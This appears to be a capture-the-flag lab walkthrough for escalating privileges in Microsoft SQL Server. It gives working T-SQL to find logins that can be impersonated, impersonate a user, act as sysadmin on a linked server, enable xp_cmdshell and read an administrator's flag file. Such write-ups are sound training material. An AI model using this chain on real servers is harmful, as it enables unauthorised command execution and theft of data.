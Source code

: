 Open Powershell: 
<img width="1064" height="756" alt="image" src="https://github.com/user-attachments/assets/4c2df7c3-b8ba-4e3a-8642-9e71f0401183" />

Connect to the default MSSQL instance by using Windows Authentication mode, providing the name of the computer WIN-HARD for the -S option:

<img width="1069" height="154" alt="image" src="https://github.com/user-attachments/assets/48fb932f-60ba-4a66-b11e-3a039d7e9f9b" />


Identify users that can be impersonated as, john and simon:

cmd:

` SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE'`

<img width="1073" height="427" alt="image" src="https://github.com/user-attachments/assets/bbbe0e4f-f71e-4cd1-87eb-843b2bfd136a" />

Query for linked servers from the sysservers table, finding one named LOCAL.TEST.LINKED.SRV:

<img width="1078" height="267" alt="image" src="https://github.com/user-attachments/assets/d553c13a-9f1b-472b-8f5f-2fa26cb62454" />

Knowing it's possible to impersonate john, check if john can connect to LOCAL.TEST.LINKED.SRV as a sysadmin:

cmd:
```
1> EXECUTE AS LOGIN = 'john'
2> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV]`
3> GO
```
<img width="1265" height="323" alt="image" src="https://github.com/user-attachments/assets/a8bf210f-456c-46f2-b080-5d9470460429" />

john can connect to LOCAL.TEST.LINKED.SRV as the sysadmin user testadmin. 
With john being a sysadmin, enable xp_cmdshell on LOCAL.TEST.LINKED.SRV to commands afterward:

cmd:

```
EXECUTE('EXECUTE sp_configure ''show advanced options'', 1;RECONFIGURE;EXECUTE sp_configure ''xp_cmdshell'', 1;RECONFIGURE') AT [LOCAL.TEST.LINKED.SRV]
GO
```

<img width="1265" height="95" alt="image" src="https://github.com/user-attachments/assets/fb24ebf8-7817-4761-b9d8-e1d42d20fee7" />

Print out the contents of the flag file "flag.txt":

```
EXECUTE('xp_cmdshell ''more c:\users\administrator\desktop\flag.txt''') AT [LOCAL.TEST.LINKED.SRV]
GO
```

<img width="1264" height="200" alt="image" src="https://github.com/user-attachments/assets/8f026236-89e6-43f2-ad9e-9333b4478167" />



















